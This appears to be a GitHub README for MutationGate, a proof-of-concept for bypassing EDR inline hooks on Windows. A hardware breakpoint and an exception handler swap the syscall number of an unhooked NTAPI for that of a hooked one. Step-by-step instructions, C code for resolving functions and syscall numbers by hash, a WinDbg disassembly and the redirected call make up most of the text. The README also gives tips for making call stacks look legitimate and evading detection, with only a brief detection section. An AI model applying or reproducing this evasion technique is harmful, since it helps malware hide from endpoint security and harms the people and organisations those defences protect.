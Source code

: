 # MutationGate
MutationGate is a new approach to bypass EDR's inline hooking by utilizing hardware breakpoint to redirect the syscall.

It works by calling an unhooked NTAPI and replacing the unhooked NTAPI's SSN with hooked NTAPI's. In this way, the syscall is redirected to the hooked NTAPI's, and the inline hook can be bypassed without loading the 2nd ntdll module or modifying bytes within loaded ntdll's memory space. 

The provided project is only a `POC`, not a comprehensive implementation. For instance, you could use this approach to set hardware breakpoints for a set of functions. 

The function can also be WIN32API. For instance, we can set the 1st hbp at `DrawText` to redirect the execution to `NtDrawText`, and the 2nd hbp replaces the SSN saved in RAX. In this way, module `kernel32.dll` is not skipped, and the call stack looks more legitimate. 

## Description
EDR tends to set inline hooks for various NTAPI, especially those are usually leveraged in malware, such as `NtAllocVirtualMemory`, `NtOpenProcess`, etc. While other NTAPI that are not usually leveraged in malware tend not to have inline hook, such as `NtDrawText`. It is very unlikely that an EDR set inline hook for all NTAPI.   

Assume NTAPI `NtDrawText` is not hooked, while NTAPI `NtQueryInformationProcess` is hooked, the steps are as follows:

1. Get the address of `NtDrawText`. It can be achieved by utilizing `GetModuleHandle` and `GetProcAddress` combination, or a custom implementation of them via PEB walking.
```c
  pNTDT = GetFuncByHash(ntdll, 0xA1920265);	//NtDrawText hash
  pNTDTOffset_8 = (PVOID)((BYTE*)pNTDT + 0x8);	//Offset 0x8 from NtDrawText
```
2. Prepare arguments for `NtQueryInformationProcess`
3. Set a hardware breakpoint at `NtDrawText+0x8`, when the execution reaches this address, SSN of `NtDrawText` is saved in RAX, but syscall is not called yet.

```windbg
0:000> u 0x00007FFBAD00EB68-8
ntdll!NtDrawText:
00007ffb`ad00eb60 4c8bd1          mov     r10,rcx
00007ffb`ad00eb63 b8dd000000      mov     eax,0DDh
00007ffb`ad00eb68 f604250803fe7f01 test    byte ptr [SharedUserData+0x308 (00000000`7ffe0308)],1
00007ffb`ad00eb70 7503            jne     ntdll!NtDrawText+0x15 (00007ffb`ad00eb75)
00007ffb`ad00eb72 0f05            syscall
00007ffb`ad00eb74 c3              ret
00007ffb`ad00eb75 cd2e            int     2Eh
00007ffb`ad00eb77 c3              ret
```
4. Retrieve the SSN of `NtQueryInformationProcess`. Inside the exception handler, update RAX with NtQueryInformationProcess' SSN. I.e., the original SSN was replaced.
```c
...<SNIP>...
uint32_t GetSSNByHash(PVOID pe, uint32_t Hash) 
{
	PBYTE pBase = (PBYTE)pe;
	PIMAGE_DOS_HEADER	pImgDosHdr = (PIMAGE_DOS_HEADER)pBase;
	PIMAGE_NT_HEADERS	pImgNtHdrs = (PIMAGE_NT_HEADERS)(pBase + pImgDosHdr->e_lfanew);
	IMAGE_OPTIONAL_HEADER	ImgOptHdr = pImgNtHdrs->OptionalHeader;
	DWORD exportdirectory_foa = RvaToFileOffset(pImgNtHdrs, ImgOptHdr.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].VirtualAddress);
	PIMAGE_EXPORT_DIRECTORY pImgExportDir = (PIMAGE_EXPORT_DIRECTORY)(pBase + exportdirectory_foa);	//Calculate corresponding offset
	PDWORD FunctionNameArray = (PDWORD)(pBase + RvaToFileOffset(pImgNtHdrs, pImgExportDir->AddressOfNames));
	PDWORD FunctionAddressArray = (PDWORD)(pBase + RvaToFileOffset(pImgNtHdrs, pImgExportDir->AddressOfFunctions));
	PWORD  FunctionOrdinalArray = (PWORD)(pBase + RvaToFileOffset(pImgNtHdrs, pImgExportDir->AddressOfNameOrdinals));

	for (DWORD i = 0; i < pImgExportDir->NumberOfFunctions; i++)
	{
		CHAR* pFunctionName = (CHAR*)(pBase + RvaToFileOffset(pImgNtHdrs, FunctionNameArray[i]));
		DWORD Function_RVA = FunctionAddressArray[FunctionOrdinalArray[i]];
		if (Hash == ROR13Hash(pFunctionName))
		{
			void *ptr = malloc(10);
			if (ptr == NULL) {
				perror("malloc failed");
				return -1;
			}
			unsigned char byteAtOffset5 = *((unsigned char*)(pBase + RvaToFileOffset(pImgNtHdrs, Function_RVA)) + 4);
			//printf("Syscall number of function %s is: 0x%x\n", pFunctionName,byteAtOffset5);	//0x18
			free(ptr);
			return byteAtOffset5;
		}
	}
	return 0x0;
}
...<SNIP>...
```
5. Since we called `NtDrawText` but with `NtQueryInformationProcess`' arguments, the call should be failed. However, since we changed the SSN, the syscall is successful. 
```c
  fnNtQueryInformationProcess pNTQIP = (fnNtQueryInformationProcess)pNTDT;
  NTSTATUS status = pNTQIP(pi.hProcess, ProcessBasicInformation, &pbi, sizeof(PROCESS_BASIC_INFORMATION), NULL);	
```


## Example

![example](screenshot/poc.png)

In this example, NtDrawtext's SSN is `0xdd`, `NtQueryInformationProcess`' SSN is `0x19`, the address of NtDrawText is `0x00007FFBAD00EB60`

The call is made to NtDrawText's address, but with NtQueryInformationProcess. Since the SSN is changed from `0xdd` to `0x19`, the syscall is successful.

## Disclaimer
1. MutationGate is not an extension or variant of various Gate. Because those Gate focus more on retrieving SSN of NTAPI, MutationGate focuses on bypassing the inline hook in NTAPI.
2. MutationGate is able to bypass inline hook in NTAPI, however, the individual technique does not guarantee to bypass EDR, because EDR has multiple detection dimensions, inline hook is one of them.
3. The project is a POC, not a complete and comprehensive implementation.



## Advantages of MutationGate Approach
So far, some classic and common approaches to bypass EDR's inline hook include but are not limited to the following approaches:
1. Load the 2nd ntdll module
2. Copy a fresh ntdll's text section to overwrite hooked ntdll's text section
3. Overwrite hooked codes(syscall stub) with fresh code
4. More...

The above techniques involve the modification of loaded ntdll, or loading of the 2nd ntdll. These behaviors could be detected by EDR. 

While MutationGate is not the only approach that untouches loaded ntdll, it does have the advantage of not modifying the loaded ntdll module, which decreases the possibility of getting detected. 

And, it is very simple, no need to modify other registers, etc.


## Detection
It is possible to detect MutationGate technique.

1. The `AddVectoredExceptionHandler` call could look suspicious in a normal program.
2. In the POC, NTAPI is called directly, which could be weird in a normal program. However, it can be resolved by adding 1 more hardware breakpoint at `DrawText`, directing the execution to `NtDrawText` and triggering the 2nd hardware breakpoint that replaces SSN.
3. Call stack in kernel space could reveal clues.

## Credits and References
<https://cyberwarfare.live/bypassing-av-edr-hooks-via-vectored-syscall-poc/>

<https://redops.at/en/blog/syscalls-via-vectored-exception-handling>

<https://gist.github.com/CCob/fe3b63d80890fafeca982f76c8a3efdf>

<https://malwaretech.com/2023/12/silly-edr-bypasses-and-where-to-find-them.html>

Maldev Academy

ChatGPT

## Other Approaches Utilized Hardware Breakpoint
<https://github.com/Dec0ne/HWSyscalls>

<https://github.com/rad9800/TamperingSyscalls>

<https://github.com/RedTeamOperations/VEH-PoC>
